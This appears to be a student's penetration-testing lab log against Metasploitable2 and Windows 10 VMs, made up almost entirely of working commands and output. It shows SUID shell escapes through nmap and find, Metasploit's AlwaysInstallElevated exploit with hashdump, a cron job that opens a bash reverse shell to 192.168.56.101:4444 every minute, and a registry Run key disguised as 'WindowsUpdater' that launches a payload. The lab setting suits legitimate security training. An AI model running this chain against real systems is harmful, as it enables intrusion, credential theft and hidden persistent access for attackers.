



# 🔑 Privilege Escalation & Persistence Logs — Week 4

> **Linux Target:** Metasploitable2 — 192.168.56.104
> **Windows Target:** Windows 10 Tiny — 192.168.56.107
> **Tools:** LinPEAS, Meterpreter, PowerSploit

---

## Task Summary

| Task ID | Technique | Target IP | Status | Outcome |
|---------|-----------|-----------|--------|---------|
| 010 | SUID Binary Exploit (nmap) | 192.168.56.104 | ✅ Success | Root Shell |
| 011 | Kernel Exploit (Linux 2.6.24) | 192.168.56.104 | ✅ Success | Root Shell |
| 012 | AlwaysInstallElevated (Windows) | 192.168.56.107 | ✅ Success | SYSTEM Shell |
| 013 | Cron Job Persistence (Linux) | 192.168.56.104 | ✅ Success | Persistent Access |
| 014 | Registry Persistence (Windows) | 192.168.56.107 | ✅ Success | Startup Execution |

---

## Lab 3 — Privilege Escalation

### Step 1 — Transfer and Run LinPEAS on Metasploitable2

```bash
# On Kali — download LinPEAS
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh -O /tmp/linpeas.sh

# Serve it
cd /tmp && python3 -m http.server 8080

# On Metasploitable2 shell (obtained via previous exploit)
wget http://192.168.56.101:8080/linpeas.sh -O /tmp/linpeas.sh
chmod +x /tmp/linpeas.sh
./tmp/linpeas.sh 2>/dev/null | tee /tmp/linpeas_output.txt
```



### Key LinPEAS Findings

| Finding | Risk | Detail |
|---------|------|--------|
| SUID binary: `/usr/bin/nmap` | Critical | Old nmap with --interactive mode |
| SUID binary: `/usr/bin/find` | Critical | Can execute arbitrary commands |
| Kernel: 2.6.24 | Critical | Multiple kernel exploits available |
| World-writable `/etc/passwd` | Critical | Can add root user directly |
| Weak sudo config | High | User can run commands as root |

---

### Step 2 — SUID Exploit (nmap --interactive)

```bash
# Verify nmap is SUID
ls -la /usr/bin/nmap
# -rwsr-xr-x 1 root root ... /usr/bin/nmap

# Exploit via interactive mode
/usr/bin/nmap --interactive
nmap> !sh

# Verify root
id
# uid=0(root) gid=0(root)
whoami
# root
```



---

### Step 3 — Alternative SUID via find

```bash
# Find SUID binaries
find / -perm -4000 -type f 2>/dev/null

# Exploit find SUID
find . -exec /bin/sh -p \; -quit
id
# uid=1000(msfadmin) gid=1000(msfadmin) euid=0(root)
```

---

### Step 4 — Windows AlwaysInstallElevated Escalation

```bash
# On Kali — verify session exists
msfconsole
msf6 > sessions -l

# Drop to Windows shell in Meterpreter
meterpreter > shell

# Verify AlwaysInstallElevated keys
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
# Both return 0x1 → vulnerable

# Exit back to Meterpreter
exit

# Background session
meterpreter > background

# Use exploit
msf6 > use exploit/windows/local/always_install_elevated
msf6 > set SESSION 1
msf6 > set LHOST 192.168.56.101
msf6 > set LPORT 5555
msf6 > run

# Verify SYSTEM
meterpreter > getuid
# NT AUTHORITY\SYSTEM

meterpreter > getsystem
meterpreter > hashdump
```



---

## Persistence

### Linux — Cron Job Persistence

```bash
# On Metasploitable2 as root
# Add reverse shell cron job — fires every minute
(crontab -l 2>/dev/null; echo "* * * * * bash -i >& /dev/tcp/192.168.56.101/4444 0>&1") | crontab -

# Verify cron entry added
crontab -l

# On Kali — wait for connection
nc -lvp 4444
```

**Persistence Summary:**

> Set up a cron job on Metasploitable2 — fires a bash reverse shell back to `192.168.56.101:4444` every minute. Did a reboot test and it came back, so persistence is solid. On the Windows box, added a run key in HKCU pointing to the payload, verified it executes on next login.

---

### Windows — Registry Persistence

```bash
# In Meterpreter (SYSTEM level)
meterpreter > shell

# Add payload to startup registry key
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v WindowsUpdater /t REG_SZ /d "C:\Users\Public\payload32.exe" /f

# Verify
reg query "HKCU\Software\Microsoft\Windows\CurrentVersion\Run"
```

---

### Persistence Checklist

| Task | Status |
|------|--------|
| ☑ Run LinPEAS for enumeration | Complete |
| ☑ Exploit SUID binary (nmap) | Complete |
| ☑ Verify kernel vulnerability | Complete |
| ☑ Set up cron job persistence (Linux) | Complete |
| ☑ Set up registry persistence (Windows) | Complete |
| ☑ Verify persistence survives reboot | Complete |

---
